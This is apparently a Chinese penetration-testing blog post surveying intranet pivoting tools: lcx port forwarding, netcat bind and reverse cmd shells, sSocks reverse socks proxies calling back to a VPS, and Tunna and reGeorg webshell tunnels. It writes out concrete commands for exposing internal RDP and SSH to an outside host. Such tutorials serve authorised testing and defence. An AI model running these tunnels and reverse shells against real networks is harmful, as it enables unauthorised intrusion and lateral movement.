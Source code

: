 # 内网渗透中转发工具总结

最近一段时间内网渗透做的比较多，刚好今天比较有时间，就总结一下内网中转发的一些工具的使用。这里主要介绍了lcx、nc 、sSocket、tunna、reGeorg几款平时用的比较多的工具，网络上也有很多关于他们的介绍，而且也非常不错，但是并没有统一起来，写这篇文章就算是一个小小的汇总吧。

0x00 LCX转发
==========

* * *

内网机器上执行：lcx.exe –slave 公网IP +端口 内网IP +端口

例如：`lcx.exe –slave 192.168.43.142 51 192.168.43.137 3389`

将内网(192.168.43.137)的3389端口转发到公网(192.168.43.142)的51端口

![p1](http://drops.javaweb.org/uploads/images/f485cc084981f52bd321227d463fb03a781c0a01.jpg)

然后在公网的机器上：

Lcx.exe –listen 监听51端口，转发到公网机器的3389端口

例如：`Lcx.exe –listen 51 3389`

![p2](http://drops.javaweb.org/uploads/images/0a44302980a46f643986b4b7cb5048900ac8b78c.jpg)

这个时候已经将内网的3389转发到了公网机器的3389端口，我们在本地机器上远程公网IP+3389 ，就连接上了内网机器的3389

![p3](http://drops.javaweb.org/uploads/images/79413a840e64afdc38eacc9e2fd00a7583608069.jpg)

0x01 NC 反弹CMDshell
==================

* * *

本机：192.168.43.142(win7) 远程机器：192.168.43.137(xp)

**正向连接：**

在远程机器上(t参数可以省略)

![p4](http://drops.javaweb.org/uploads/images/8f947e01902d64e575819184b918440dcb9f63fe.jpg)

在本地机器上

![p5](http://drops.javaweb.org/uploads/images/4916133dd75cad8421bd84095864bb62c16bf427.jpg)

成功之后，本地机器就获得了一个远程机器的shell

![p6](http://drops.javaweb.org/uploads/images/738883d5e38818c60bbceaf31661ac24f2beeb8a.jpg)

**反向连接：**

在本机运行上

![p7](http://drops.javaweb.org/uploads/images/0168cda852508fdcd862dda22d1e7a07c88dc329.jpg)

在远程机器上(t参数可以省略)

![p8](http://drops.javaweb.org/uploads/images/164a01c5175d0d1fbbf586fac8980e6025afdda0.jpg)

然后成功之后，我们在本地机器上看一下，已经获得了远程机器的cmdshell

![p9](http://drops.javaweb.org/uploads/images/9e94ac1af8fa3cf12d8618db0b5af97468ef6be2.jpg)

这里还有前人总结的十种反弹shell的方法，很不错

*   [http://zone.wooyun.org/content/5064](http://zone.wooyun.org/content/5064)(wb>5)
*   [http://www.waitalone.cn/linux-shell-rebound-under-way.html](http://www.waitalone.cn/linux-shell-rebound-under-way.html)

0x02 sSocket
============

* * *

一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试。

下载地址：[https://sourceforge.net/projects/ssocks/](https://sourceforge.net/projects/ssocks/)

![p10](http://drops.javaweb.org/uploads/images/966e7f0b7ee9954f9a0328a57706475f2747b1ce.jpg)

先在vps 执行`rcsocket.exe –l 1088 –p 8888 –vv`, 监听1088端口

![p11](http://drops.javaweb.org/uploads/images/b0e52b73b893c93687b86b5c12592befd1c2ae82.jpg)

内网机器执行`./rssocks –vv –s 192.168.30.103:8888`(VPS)

![p12](http://drops.javaweb.org/uploads/images/bea0c145de44e5451b3f5bcd8baaa8cabe520b36.jpg)

成功，则会看到会话建立

![p13](http://drops.javaweb.org/uploads/images/024659ae234015fa6af9d06917fcaa7215b40469.jpg)

设置代理，让本机可以通过VPS的1088端口访问内网机器。

![14](http://drops.javaweb.org/uploads/images/68892da928bb69b87ae6ca4678e6dd68c7f45c39.jpg)

本机上 ssh 192.168.43.136内网主机

![p15](http://drops.javaweb.org/uploads/images/62d80e473a49c0b57e6c50fedd38a69d91da3bb2.jpg)

成功ssh到内网机器

![p16](http://drops.javaweb.org/uploads/images/14cdb0fc6ba860da1f8bcffc8e8758ef59fade91.jpg)

0x03 Tunna 正向代理
===============

* * *

[参考](http://drops.wooyun.org/tools/650)

`proxy.py -u http://xxx.com:206/test /conn.jsp -l 8888 -r 22 -v -s`

![p17](http://drops.javaweb.org/uploads/images/7d1c085d05245f5d26d7ddf4ecef8bceef8cdc04.jpg)

然后在xshell中执行  
ssh 127.0.0.1 8888,看到下面的样子，说明已经成功了

![p18](http://drops.javaweb.org/uploads/images/7b2fa31f81ab9a9d344f668885fab6a17a05f98c.jpg)

![p19](http://drops.javaweb.org/uploads/images/5a4c39daade2d79f7eaacc9f0abcc37e014ce416.jpg)

同样的，如果内网的机器是windows，就把3389转出来

`proxy.py -u http://xxx.com:206/test /conn.jsp -l 8888 -r 3389 -v`

其中几个参数的解释：

*   -l 表示本地监听的端口
*   -r 远程要转发的端口
*   -v 详细模式

另外，如果脚本传到了内网A机器上，但是想登录内网B机器，那么可以-a参数指定机器

将内网中172.16.100.20主机的3389转发到本地  
`python2.7 proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -a 172.16.100.20 -r 3389`

0x04 reGeorg+proxifier 正向代理
===========================

* * *

reGeorg是reDuh的继承者，利用了会话层的socks5协议，效率更高一些。这也是平时用的比较多的工具。

先将reGeorg的对应脚本上传到服务器端，直接访问显示“Georg says, 'All seems fine'”，表示脚本运行正常

![p20](http://drops.javaweb.org/uploads/images/a39b91b674703e83e04b1f5c863b7aa90b26e292.jpg)

运行`python reGeorgSocksProxy.py -p 8888 -u http://www.xxx.com/tunnel.php`

![p21](http://drops.javaweb.org/uploads/images/15d3dd5bba57b1aafeaa8a380b1d1ba9f41da3ee.jpg)

将proxifier打开，在Proxy Server中这样配置

![p22](http://drops.javaweb.org/uploads/images/b6d68489f509473379370b8bb1ed3d8b6c74b753.jpg)

![p23](http://drops.javaweb.org/uploads/images/6839094e69de1ee7c0170db5e6d8e3fd95447d34.jpg)

然后就可以在本地访问内网的机器了

![p24](http://static.wooyun.org//drops/20160429/2016042903552840012.png)

成功3389到内网机器

![p25](http://drops.javaweb.org/uploads/images/70befdf66a0867f5fbc92214d6566251c7f417de.jpg)